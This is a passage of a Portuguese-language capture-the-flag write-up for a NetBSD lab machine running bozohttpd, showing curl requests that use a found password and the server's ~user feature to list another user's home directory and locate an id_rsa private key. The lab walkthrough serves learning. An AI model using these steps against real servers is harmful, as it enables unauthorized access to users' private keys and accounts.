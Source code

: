 Um ponto que estava passando desapercebido até então é que embora acessássemos a aplicação na porta 80/TCP, ela estava publicada na porta 3000/TCP local. Isso implica que algum proxy estava sendo utilizado para a sua publicação. Esta informação foi confirmada ao validar o cabeçalho da resposta recebida em um request diretamente por dentro da máquina:

```bash
curl -I http://127.0.0.1:3000
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 199 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="."
Content-Type: text/html
Content-Length: 199
Server: bozohttpd/20190228
Allow: GET, HEAD, POST
```

Pesquisando sobre o bozohttpd, o servidor utilizado para esta publicação, encontrei esta [**man page**](https://man.netbsd.org/NetBSD-7.0/bozohttpd.8) que descreve uma das suas features: *~user translation*, que permite acessar diretórios virtuais dos usuários através de chamada do tipo `http://<server>/~<username>`. Iss foi confirmado a partir da seguinte chaada utilizando o `curl`:  

```bash
curl http://127.0.0.1:3000/~r.michaels -u webapi_user
Enter host password for user 'webapi_user':iamthebest
  
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 172 0 172 0 0 86000 0 --:--:-- --:--:-- --:--:-- 86000
<html><head><title>Document Moved</title></head>
<body><h1>Document Moved</h1>
This document had moved <a href="http://127.0.0.1:3000/~r.michaels/">here</a>
</body></html>
```

Entretanto, uma vez que a instância na porta 3000 roda com a conta `_httpd`, não temos permissão neste diretório, mas como notamos que existe uma outra instancia na porta 3001 em execução pelo usuário `r.michaels`, pudemos obter o seguinte resultado, onde vemos a existência de um aquivo chamado **id_rsa**

```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user
Enter host password for user 'webapi_user':iamthebest

% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 601 0 601 0 0 293k 0 --:--:-- --:--:-- --:--:-- 586k
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
border-top: 1px solid black;
border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
```